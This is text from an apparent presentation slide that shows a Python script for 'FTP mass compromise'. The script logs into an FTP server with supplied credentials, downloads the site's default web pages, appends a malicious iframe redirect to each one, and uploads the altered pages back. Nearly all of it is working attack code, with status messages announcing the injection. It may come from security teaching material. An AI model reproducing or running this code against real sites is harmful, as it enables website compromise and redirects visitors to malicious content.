

# FTP mass compromise by bridging FTP and WEB Code
def inject_page(ftp, page, redirect):
    with open(page + '.tmp', 'w') as file:
        ftp.retrlines('RETR ' + page, file.write)
        print(f'[+] Downloaded Page: {page}')
        file.write(redirect)
    print(f'[+] Injected Malicious IFrame on: {page}')
    ftp.storlines('STOR ' + page, open(page + '.tmp'))
    print(f'[+] Uploaded Injected Page: {page}')
def attack(username, password, host, redirect):
    ftp = ftplib.FTP(host)
    ftp.login(username, password)
    def_pages = return_default(ftp)
    for def_page in def_pages:
        inject_page(ftp, def_page, redirect)